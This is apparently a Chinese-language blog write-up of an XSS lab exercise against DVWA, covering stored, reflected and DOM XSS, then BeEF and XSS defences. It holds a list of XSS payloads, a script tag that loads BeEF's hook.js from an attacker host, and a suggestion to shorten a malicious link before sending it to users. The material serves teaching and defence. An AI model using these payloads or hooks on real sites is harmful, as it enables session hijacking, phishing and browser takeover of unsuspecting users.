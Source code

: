 ```yaml
---
title: 记XSS漏洞操练
author: Pandaho
date: 2021-08-11 20:00:00 
categories: [Project] 
tags: [security]
image: /assets/img/security-XSS/cover.png
---
```





## 法律声明

**中华人民共和国刑法：** 第285、286、287条

**第二百八十五条** 违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。

**第二百八十六条** 违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的，处五年以下有期徒刑或者拘役；后果特别严重的，处五年以上有期徒刑。违反国家规定，对计算机信息系统中存储、处理或者传输的数据和应用程序进行删除、修改、增加的操作，后果严重的，依照前款的规定处罚。故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行，后果严重的，依照第一款的规定处罚。

**第二百八十七条** 利用计算机实施金融诈骗、盗窃、贪污、挪用公款、窃取国家秘密或者其他犯罪的，依照本法有关规定定罪处罚。



## 用知识的土壤来填埋这些坑洞

XSS跨站脚本攻击(Cross Site Scripting)攻击者往web页面里插入恶意script代码，当用户浏览该网页时，被嵌入在web页面script恶意脚本代码将被执行，从而达到恶意攻击用户的目的，xss攻击针对的是用户层面的攻击。

通过插入恶意的html，javascript脚本，来攻击网站，盗取用户Cookie、破坏页面结构、重定向到其它网站。

漏洞: 构造动态文档时，未进行正确的编码和转义。

所谓cookie就是用户身份凭证，所以在盗取了cookie之后，就可以在这个会话内通过这个cookie直接登录用户账户。

这里我们通过firefox演示一遍，打开dvwa登录后，在后台参数我们可以看到cookie的值

![图例](/assets/img/security-XSS/1.png)

我们将该值删除后再次访问会发现，没有cookie后被强制退出账户，再将值添加回去，访问恢复正常。

了解这些后我们开始xss的操练，进入XSS (Stored)，在插入框写入

`<script>alert(test)</script>`

执行后，该代码将永久插入前端中，后续用户每次点击该页面，该代码都会被执行，这便是存储型xss。

HTML <script> 标签

定义和用法

`<script> 标签用于定义客户端脚本，比如 JavaScript。`

script 元素既可以包含脚本语句，也可以通过 src 属性指向外部脚本文件。

必需的 type 属性规定脚本的 MIME 类型。

JavaScript 的常见应用时图像操作、表单验证以及动态内容更新。

alert()可以用来简单而明了地将括号内的文本信息显示在对话框中，我们将它称为警示对话框，并且该对话框上包含一个“确认”按钮，用户阅读完所显示的信息后，只需单击该按钮就可以关闭对话框。

存储型xss又称持久性xss，攻击脚本将被永久地存在在目标服务器的数据库或文件中，具有很高的隐蔽性，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。

了解了存储型后我们尝试反射型xss，进入XSS (Reflected)，在url上构建代码

`http://192.168.80.128/vulnerabilities/xss_r/?name=<script>alert(test)</script>`

将代码再进行[短链接转换](https://www.ft12.com) 后发给用户，用户只要访问url就会受到xss反射型攻击。

 反射型xss：非持久化xss，需要欺骗用户自己去点击链接才能触发xss代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

DOM型xss：不经过后端，DOM-xss漏洞是基于文档对象模型（Document Object Model）的一种漏洞，DOM-xss是通过url传入参数去控制触发的，其实也属于反射型xss。

```
常用的payload
<script>alert(1)</script> #最普通的xss
<script>alert(document.cookie)</script> #获取cookie
<a href="javascript:alert('xss')">xss</a> #a链接的xss
<script src='http://baidu.com/xss.js'></script> # 外部攻击代码
<img src=x onerror=alert(1)> #加载图形失败执行
<iframe onload=alert('xss')> #框架
<svg onload=alert(1)>
<video onloadstart=alert(1) src="/media/hack-the-planet.mp4" />
<body onload=alert(1)>
<style onload=alert(1)></style>
<input onmouseover=alert(1)>
```

了解完基础的xss操作后，再看下相关的工具使用。

BeEF，全称The Browser Exploitation Framework，是一款针对浏览器的渗透测试工具。 用Ruby语言开发的，用于实现对XSS漏洞的攻击和利用。

BeEF主要是往网页中插入一段名为hook.js的JS脚本代码，如果浏览器访问了有hook.js(钩子)的页面，就会被hook(勾住)，勾连的浏览器会执行初始代码返回一些信息，接着目标主机会每隔一段时间（默认为1秒）就会向BeEF服务器发送一个请求，询问是否有新的代码需要执行。BeEF服务器本质上就像一个Web应用，被分为前端和后端。前端会轮询后端是否有新的数据需要更新，同时前端也可以向后端发送指示， BeEF持有者可以通过浏览器来登录 BeEF 的后端，来控制前端(用户的浏览器)。BeEF一般和XSS漏洞结合使用。

```
sudo apt-get install beef-xss #安装
vim /usr/share/beef-xss/config.yaml   #配置beef
Beef-xss #启动
systemctl start beef-xss.service         #开启beef服务
systemctl stop beef-xss.service         #关闭beef服务
systemctl restart beef-xss.service      #重启beef服务

<script src='http://192.168.80.128:3000/hook.js'></script>   #构建好代码后，在dvwa进行xss攻击
回到beef-xss我们能看到主机已经被监控，选择主机，进入commands可选择各类命令进行攻击
Redirect Browser  网页重定向
Pretty Theft  登录弹窗伪造
```

绿色：适用于当前浏览器

橙色：适用于当前浏览器，但会被用户发现

灰色：不适应当前浏览器，可尝试使用。

由此可见XSS的危害是非常严重的：

针对用户：窃取cookie劫持会话、网络钓鱼、放马挖矿、广告刷流量

针对WEB服务：劫持后台、篡改页面、传播蠕虫、内网扫描

现在针对XSS防御的总体思路是：对输入（和url参数）进行过滤，对输出进行编码。过滤用户（客户端）提交的有害信息，从而达到防范XSS攻击的效果。

1、输入验证过滤：

简单来说，输入验证就是对用户提交的信息进行有效验证，仅接受指定长度范围内的，采用适当格式的内容提交，阻止或忽略除此之外的其他任何数据。

输入是否仅包含合法字符

输入字符串是否超过最大长度限制

输入如果为数字，数字是否在指定范围内

输入是否符合特殊格式要求

2、输出编码

HTML编码主要用对应的HTML实体替代字符。

黑白名单

不管采用输入过滤还是输出编码，都是针对数据信息进行黑/白名单式的过滤

3、防御DOM-XSS

避免客户端文档重写，重定向或其他敏感操作

4、HTTPonly防范劫持cookie

HTTPonly由微软最早提出，至今已经成为一个标准，浏览器将禁止页面的javascript访问带有HTTPonly属性的cookie。



## 参考来源

TI安全实验室  
[HTML详解](https://www.w3school.com.cn/h.asp)  
[BEEF详解](https://blog.csdn.net/weixin_53549425/article/details/119078739)  
